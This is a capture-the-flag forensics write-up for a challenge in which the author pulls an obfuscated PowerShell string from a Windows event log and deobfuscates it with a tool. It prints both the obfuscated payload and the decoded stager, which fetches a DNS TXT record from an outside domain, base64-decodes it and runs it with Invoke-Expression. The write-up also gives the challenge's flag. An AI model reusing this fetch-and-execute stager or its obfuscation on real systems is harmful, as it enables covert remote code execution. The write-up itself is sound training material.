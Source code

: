 # Texas Chainsaw Massacre: Tokyo Drift (forensics, 323 solves, 50 points)

## Introduction

<p align="left">
  <img height=700 img src=./readme_assets/texas-challenge.PNG/>
</p>

## Solution

Use [Gigasheet](https://www.gigasheet.com/post/online-evtx-parser-and-viewer) to open and view the `EVTX` file.

There was too much info to sift through so I downloaded the info to a `.csv` file.

Looking through all of the entries I found the install of the game and found a long hex string. The string converts to : 

```
(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. ( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')
```

I spent a ton of time manually de-obfuscating the code and ended up with gibberish each time. I ran across [PowerDecode](https://github.com/Malandrone/PowerDecode) and downloaded to try this in another way.

Using PowerDecode we get:

```
try {$TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue' ; if ($error.Count -eq 0) { $5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { $_.Strings }); if ($5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Invoke-Expression } } } catch { }
```

Run `Resolve-DnsName eventlog.zip -Type txt` in powershell to get a base64 string.

<p align="left">
  <img height=300 img src=./readme_assets/texas-base64.PNG/>
</p>

*It turns out John Hammond owns the domain `eventlog.zip` and it's actually a real web domain. I was stuck on this part for a long time because I assumed `eventlog.zip` was a file so I didn't run the `Resolve-DnsName` command.* 

Decode the string for the flag.

<p align="left">
  <img height=300 img src=./readme_assets/texas-flag.PNG/>
</p>

## Flag

**`flag{409537347c2fae01ef9826c2506ac660}`**

## Tools

- `powershell`
- [Gigasheet](https://www.gigasheet.com/post/online-evtx-parser-and-viewer)
- [PowerDecode](https://github.com/Malandrone/PowerDecode)
